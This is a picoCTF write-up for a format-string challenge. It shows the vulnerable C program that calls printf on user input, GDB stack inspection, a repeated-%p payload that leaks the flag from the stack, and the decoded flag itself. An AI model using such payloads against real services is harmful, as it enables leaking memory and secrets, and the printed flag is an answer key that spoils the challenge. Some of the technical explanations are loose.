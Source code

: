 ```yaml
---
layout: writeup
category: picoCTF
chall_description: https://i.imgur.com/qugoytN.png
points: 300
solves: 2308
tags: binary-exploitation format-strings %p
date: 1337-01-01
comments: false
---
```


Story telling class 1/2  
I'm just copying and pasting with this [program](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/flag-leak-vuln). What can go wrong? You can view [source](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/flag-leak-vuln.c) here. And connect with it using:  
`nc saturn.picoctf.net [port #]`  

---

We're given a binary ELF file and a C source file. Here's the C source:  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

Hold on, we're calling `readflag()` during our program execution in `vuln()` -- doesn't that mean that the flag, i.e. `FILE *f`, will be stored in the stack? Since it is a local variable declared and initialized during the function call, the actual values of the flag should definitely be located somewhere in the stack. Let's test our theory out in GDB.  

First create a `flag.txt` and fill it with some text you'll recognize, enable `vuln`'s execution, and launch GDB.  

<pre 
  class="command-line" 
  data-prompt="kali@kali $"
><code class="language-bash">chmod +x vuln
nano flag.txt
gdb vuln</code>
</pre>

Now let's set a breakpoint after input is received to see what stack offset our input is at and if the flag is in the stack.  

<pre 
  class="command-line" 
  data-prompt="kali@kali $"
><code class="language-bash">disass vuln 
b *vuln+95 # inserts breakpoint at the `<puts@plt>` function call
r
x/100x $esp # outputs current stack for 100 bytes</code>
</pre>


After the following sequence of commands, you will notice that  user input lies at `$esp+0x10` and the flag lies at some later offset in the stack depending on the size of the user input.    

Since the flag lies on the stack, we can make use of the format string `%p`, the format specifier for addresses, to output bytes on the stack and thus obtain the flag.  
Submit a payload of `%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p` to the program (this can be easily written by activating python in terminal and writing `print(‘%p’*N)`, where N is the number of %p’s you need. The maximum of N is 63, in this case, as the scanf function has a buffer of 127 bytes.)  
Note that each %p outputs 4 bytes on the stack. Since each %p itself takes up 2 bytes on the stack, each %p we add is essentially letting us look an additional 2 bytes into the stack.  
Remove the `0x`'s and `(nil)`'s and put it into a hex to ascii converter.  
Notice that the hex string `6f6369707b4654436b34334c5f676e3167346c466666305f3474535f395f6b63303666357d373136` should return the ascii string:  

    ocip{FTCk43L_gn1g4lFff0_4tS_9_kc06f5}716

Every four characters is reversed due to little endianness, thus, to get the flag, reverse every group of four characters to return:  

    picoCTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}
